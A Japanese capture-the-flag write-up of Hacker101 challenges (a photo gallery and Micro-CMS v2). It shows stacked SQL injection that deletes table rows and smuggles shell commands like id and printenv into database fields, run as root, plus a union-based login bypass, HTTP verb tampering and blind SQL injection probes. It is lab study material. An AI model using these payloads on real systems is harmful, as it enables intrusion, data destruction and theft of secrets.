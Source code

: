 `0;DELETE from photos;commit;`でテーブル内を削除した後、  
`0;INSERT INTO photos (title, filename,parent) VALUES (';id', ';id',1); commit;`で`id`コマンドを実行するようにしてみると、以下のようにidコマンドが実行できた！  
```txt
;id
Space used: uid=0(root) gid=0(root) groups=0(root)
```
`0;DELETE from photos;commit;INSERT INTO photos (title, filename,parent) VALUES (';echo$(printenv)', ';echo$(printenv)',1); commit;`をすると、以下のように2行目以降が見えない……  
```txt
Space used: /bin/sh: 1: echoPYTHONIOENCODING=UTF-8: not found
```
`;echo$(printenv)| tr -d "\n"`で1行にまとめられると思ったけど、`.strip().rsplit('\n', 1)[-1]`で改行を区切り文字として最後の要素を取り出すのでこの場合は`"`が取り出されてしまう。  
`0;DELETE from photos;commit;INSERT INTO photos (title, filename,parent) VALUES (';printenv>files/output1', ';printenv>files/output1',1); commit;`としてファイルに結果を書きこんでからそれを表示すれば解決した。  
`0 union select 'files/output1'`  
```txt
PYTHONIOENCODING=UTF-8 UWSGI_ORIGINAL_PROC_NAME=/usr/local/bin/uwsgi 
SUPERVISOR_GROUP_NAME=uwsgi FLAGS=
["^FLAG^59540711ea6225e?????????66ec6b5$FLAG$", 
"^FLAG^b92cc0e313bc00694e49??????????2036b499674$FLAG$", 
"^FLAG^aa435df54378ebcdc51825??????????f00b367efe$FLAG$"] 
HOSTNAME=0afaf3213fe1 SHLVL=0 PYTHON_PIP_VERSION=18.1 HOME=/root 
GPG_KEY=C01E1CAD5EA2C4F0B8E3571504C367C218ADD4FF UWSGI_INI=/app/uwsgi.ini NGINX_MAX_UPLOAD=0 
UWSGI_PROCESSES=16 STATIC_URL=/static UWSGI_CHEAPER=2 NGINX_VERSION=1.13.12-1~stretch 
PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin 
NJS_VERSION=1.13.12.0.2.0-1~stretch LANG=C.UTF-8 SUPERVISOR_ENABLED=1 PYTHON_VERSION=2.7.15 
NGINX_WORKER_PROCESSES=1 SUPERVISOR_SERVER_URL=unix:///var/run/supervisor.sock 
SUPERVISOR_PROCESS_NAME=uwsgi LISTEN_PORT=80 STATIC_INDEX=0 PWD=/app STATIC_PATH=/app/static 
PYTHONPATH=/app UWSGI_RELOADS=0
```
## Micro-CMS v2
https://katsuwosashimi.com/archives/620/hacker101-ctf-micro-cms-v2/  
### login bypass "' union select '1" "1" /  (flag0)
ログインフォームで`' or 1=1`を入力すると以下のようなエラーが出力される。よって、flaskで書かれたサイトで、MariaDBを使っていることがわかる。  
また、`SELECT password FROM admins WHERE username=\'%s\'`となっており、`%`という文字が'%%'にエスケープされることがわかる。  
```txt
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1")
```
username=`' union select '1`,password=`1`を入力すると条件をクリアしてログインできる！  
これでSecret Pageにアクセスでき、中にFlagが書いてある。  
ちなみに、自力でやったときはこのやり方じゃなくてBlindで普通にusernameとpasswordを特定してログインしてFlag2が先に出力された。そのあとDBをダンプしてSecret PageについてのデータをDatabaseから取り出してFlag0をゲットした。  
### HTTP Verb Tampering (flag1)
**HTTP Verb Tampering**というGETの代わりにPOSTをいれて、アクセスが禁止されているページにPOSTでアクセスするみたいな攻撃手法を使う。  
`/page/edit/1`に対して通常のGETでアクセスすると、loginページにリダイレクトするが、POSTに書き直してアクセスするとFlag1が得られた！  
### MySQL / blind Injection / identify password (flag2)
ログインフォームで以下からBlindができることがわかる！  
ログインできればFlag2ゲット！  
```txt
' or 1 and 1=1 #
```